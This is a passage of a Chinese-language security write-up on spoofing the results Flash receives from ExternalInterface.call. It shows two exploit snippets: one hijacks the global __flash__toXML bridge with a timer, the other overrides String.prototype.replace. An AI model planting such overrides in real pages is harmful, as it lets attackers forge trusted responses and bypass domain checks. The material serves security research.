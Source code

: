 因为 Flash 只提供当前 swf 的路径，并不知道自己是被谁嵌套的，于是只能用这种曲线救国的办法了。

不过上了 JS 的贼船，自然就躲不过厄运了。有数不清的前端黑魔法正等着跃跃欲试。Flash 要和各种千奇百怪的浏览器通信，显然需要一套消息协议，以及一个 JS 版的中间桥梁，用以支撑。了解 Flash XSS 的应该都不陌生。

在这个桥梁里，其中有一个叫`__flash__toXML`的函数，负责将 JS 执行后的结果，封装成消息协议返回给 Flash。如果能搞定它，那一切就好办了。

显然这个函数默认是不存在的，是载入了 Flash 之后才注册进来的。既然是一个全局函数，页面中的 JS 也能重定义它：

```
// exp-1.js
function handler(str) {
    console.log(str);
    return '<string>hi,jack</string>';
}
setInterval(function() {
    var rawFn = window.__flash__toXML;
    if (rawFn && rawFn != handler) {
        window.__flash__toXML = handler;
    }
}, 1);

```

通过定时器不断监控，一旦出现就将其重定义。于是用 ExternalInterface.call 无论执行什么代码，都可以随意返回内容了！

为了消除定时器的延迟误差，我们先在自己的 swf 里，随便调用下 ExternalInterface.call 进行预热，让`__flash__toXML`提前注入。之后子 swf 使用时，已经是被覆盖的版本了。

当然，即使不使用覆盖的方式，我们仍可以控制`__flash__toXML`的返回结果。

仔细分析下这个函数，其中调用了`__flash__escapeXML`：

```
function __flash__toXML(value) {
    var type = typeof(value);
    if (type == "string") {
        return "<string>" + __flash__escapeXML(value) + "</string>";
    ...
}

function __flash__escapeXML(s) {
    return s.replace(/&/g, "&amp;").replace(/</g, "&lt;") ... ;
}

```

里面有一大堆的实体转义，但又如何进行利用？

因为它是调用`replace`进行替换的，然而在万恶的 JS 里，常用的方法都是可被改写的！我们可以让它返回任何想要的值：

```
// exp-1.js
String.prototype.replace = function() {
    return 'www.test.com';
};

```
